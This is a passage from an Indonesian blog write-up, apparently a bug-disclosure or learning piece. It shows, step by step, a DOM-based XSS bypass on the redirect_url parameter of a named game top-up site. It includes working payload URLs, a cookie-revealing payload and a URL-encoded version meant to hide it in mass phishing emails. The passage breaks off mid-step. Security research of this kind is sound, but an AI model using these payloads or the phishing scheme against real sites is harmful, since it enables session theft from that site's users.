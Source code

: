 
3. **Mempertimbangan penggunaan fungsi "*substr()*" lebih disarankan ketimbang fungsi "*strpos()*"**<br> Setelah melalui beberapa pertimbangan , jika kita perhatikan string ``` document.location ```itu sudah ada isinya yaitu "*google.com*" jadi untuk membersihkannya menurut saya (dibantu oleh referensi dari google) lebih prefer menggunakan fungsi [substr()](https://www.malasngoding.com/manipulasi-string-pada-javascript/) ketimbang fungsi [strpos()](https://www.duniailkom.com/tutorial-php-cara-mencari-posisi-string-php-fungsi-strpos/) atau bisa dikatakan penggunaan substr itu untuk mengambil slice dari string nya . Saya tambahkan 0,0 menjadi
.substr(0,0); , jika kita taro di parameter jadi seperti ini : <br> ``` ?redirect_url=https://www.google.com'.substr(0,0); ``` <br><br>
![this_ss_sniff](https://robotmikhro.github.io/img/IMG_20190411_211414.jpg) <br>
![this_ss_kodejs](https://robotmikhro.github.io/img/IMG_20190411_211441.jpg) <br> Namun page tetap tidak ter-redirect. <br>
4. **Menambahkan fungsi "*concat(urlnya)*" untuk menggabungan string dengan string dengan urlnya *diarray*** : <br> Maka dari itu saya coba menambahkan ```.concat('https:','//','ramaren.com'); ```  jika digabungkan menjadi seperti ini <br>
``` document.location='https://www.google.com'.substr(0,0).concat('https:','//','ramaren.com'); ``` . Namun seperti sebelum²nya page masi belom ter-redirect .<br>
5. **Menambahkan "*//*" dibagian akhir kode** : <br> Untuk mengatasi page yang masi belom ter-redirect (belum sukses membypass) itu ternyata akibat dari adanya error syntax pada javascript, 
solusinya kita perlu menambahkan "**//**" dibagian akhir. <br>Bentuk url & parameter secara keseluruhan menjadi seperti ini : <br>
> https://pointblank.id/topup/auth?redirect_url=https://www.google.com'.substr(0,0).concat('https:','//','ramaren.com');//```<br>

Fungsi "**//**" sebenarnya apa sih ? Jadi fungsi nya untuk mematikan "*?access_token=token*" agar tidak terjadi error syntax pada kode javascript tersebut. <br>
Lalu coba kita execute url tersebut di browser dan liat hasilnya : <br>
![video_to_gif](https://robotmikhro.github.io/img/Screenrecorder201904120437.gif) <br><br>
**Nah sampai pada tahap ini kita sudah berhasil melakukan bypass pada document.location** .<br>
•Dan untuk memunculkan *Pop Up XSS* yang perlu kita lakukan hanya menambahkan :
``` ;alert(2);// ```  dan mengganti yang ada pada concat() dari "*https://ramaren.com*" menjadi "*document.location*" . Mengapa  mesti "*document.location*" ? Soalnya itu ngereplace document.location 
sama string yg baru, kalau di replace sama dirinya sendiri kan berarti 
engggak ada yg berubah. Umpamanya  nya jadi kayak gini ``` document.location = document.location ```  , sehingga klu digabungin sama url lengkapnya jadi begini : <br>

> https://pointblank.id/topup/auth?redirect_url=https://www.google.com'.substr(0,0).concat(document.location);alert("XSS");//  <br> 

•Lalu coba kita eksekusi di browser.<br>
![ss-sukses-xss](https://robotmikhro.github.io/img/IMG_20190412_050853.jpg) 

yeahh ! 😎 XSS sukses ter-eksekusi dan memunculkan pop up 😁 ... <br><br>

Saya juga akan menunjukkan bagaimana skema seorang attacker untuk mengelabui korban/victim (disini ceritanya si victim adalah user dari website tersebut) dan mencuri cookienya . Simak berikut ini :
### Skema Attacker/Hacker ketika melakukan social engginering kepada korban/user untuk mendapatkan cookie  user (lengkap dengan gambar)

1. **Attacker melakukan social engineering melalui email :**<br>
Attacker akan mengirimkan link melalui email kepada user secara mass dengan iming² event berhadiah ;
``` https://www.pointblank.id/topup/auth?redirect_url=//www.google.com/2uX4ygk'.substr(0,0).concat(document.location);document.write('<center><h1><b>THANK YOU FOR YOUR ATTENTION ! :D</b></center></h1>');javascript:prompt("Dibagian ini user cookie user bisa dicuri oleh sang Attacker/Hacker ! Ini dia cookienya :",document.cookie);//  ``` <br>

Agar sang korbang tidak curiga , si Attacker melakukan encode pada url tersebut terutama yang bagian kode javascriptnya , menjadi seperti ini ;
```https://www.pointblank.id/topup/auth?redirect_url=%2f%2fwww.google.com%2f2uX4ygk%27%2e%73%75%62%73%74%72%280%2c0%29%2e%63%6f%6e%63%61%74%28%64%6f%63%75%6d%65%6e%74%2e%6c%6f%63%61%74%69%6f%6e%29%3b%64%6f%63%75%6d%65%6e%74%2e%77%72%69%74%65%28%27%3c%63%65%6e%74%65%72%3e%3c%68%31%3e%3c%62%3e%54%48%41%4e%4b%20%59%4f%55%20%46%4f%52%20%59%4f%55%52%20%41%54%54%45%4e%54%49%4f%4e%20%21%20%3a%44%3c%2f%62%3e%3c%2f%63%65%6e%74%65%72%3e%3c%2f%68%31%3e%27%29%3b%6a%61%76%61%73%63%72%69%70%74%3a%70%72%6f%6d%70%74%28%22%44%69%62%61%67%69%61%6e%20%69%6e%69%20%75%73%65%72%20%63%6f%6f%6b%69%65%20%75%73%65%72%20%62%69%73%61%20%64%69%63%75%72%69%20%6f%6c%65%68%20%73%61%6e%67%20%41%74%74%61%63%6b%65%72%2f%48%61%63%6b%65%72%20%21%20%49%6e%69%20%64%69%61%20%63%6f%6f%6b%69%65%6e%79%61%20%3a%22%2c%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%29%3b%2f%2f ``` <br>

•Berikut screenshot di sisi Attacker : <br>
![ss__email_attacker](https://robotmikhro.github.io/img/IMG_20190412_075536.jpg) <br>
2. **User membuka kotak masuk email nya dan terpengaruh dengan iming² si Attacker :** <br> Korban/user yang awam akan mudah terlena dan dengan penasaran segera mengklik link tersebut . xD Apalagi melihat link tersebut berasal dari domain resmi pihak Point Blank <br>
•Berikut screenshot di sisi User : <br>
![ss_email_user](https://robotmikhro.github.io/img/IMG_20190412_080527.jpg) <br>
3. **User mengklik link tersebut dengan segera dan Walaaa ! :** <br>
```